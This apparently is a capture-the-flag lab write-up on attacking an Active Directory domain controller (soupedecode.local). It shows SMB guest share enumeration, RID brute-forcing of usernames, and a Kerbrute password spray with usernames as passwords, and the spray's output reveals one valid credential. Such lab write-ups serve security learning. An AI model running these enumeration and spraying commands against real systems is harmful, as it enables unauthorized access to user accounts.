 Checking if the there are null authentication to the shares in the DC. 

<img width="987" height="138" alt="image" src="https://github.com/user-attachments/assets/8657d823-53ef-4dfc-a7e4-be2448e1d598" />

there are no list shares for null



Now attempting with an user called "guest".

<img width="1179" height="259" alt="image" src="https://github.com/user-attachments/assets/d3725c8b-475e-4323-931c-60d6a9bb25d1" />

we can authenticate through guest with no password with all of the avaliable list of shares but have no access rights



At this point i have added the IP and the domain controller to the host files under soupedecode.local 


Moving on, starting to enumerating users via RID bruteforce. 

<img width="941" height="737" alt="image" src="https://github.com/user-attachments/assets/653d5580-af34-4548-9a8a-fd34d411577d" />

There are lot of users ! i am going to copy up to 300 users for now and save it as a user.txt file.

Using the apporached commands to cut out certain field/columns of the file so it show only the usernames. 

```
kali㉿kali)-[~]
└─$ cat rids.txt | cut -d '\' -f2 | cut -d ' ' -f1 > users.txt
```

## 3.Performing a Passwordspraying attack to the user accounts via Kerberute.
```
┌──(kali㉿kali)-[~]
└─$ kerbrute1 passwordspray --user-as-pass --dc dc01.soupedecode.local -d soupedecode.local users1.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/09/25 - Ronnie Flathers @ropnop

2025/08/09 10:24:06 >  Using KDC(s):
2025/08/09 10:24:06 >   10.10.67.6:88

2025/08/09 10:24:07 >  [+] VALID LOGIN:  ybob317@soupedecode.local:ybob317
2025/08/09 10:24:08 >  Done! Tested 237 logins (1 successes) in 1.529 seconds

```
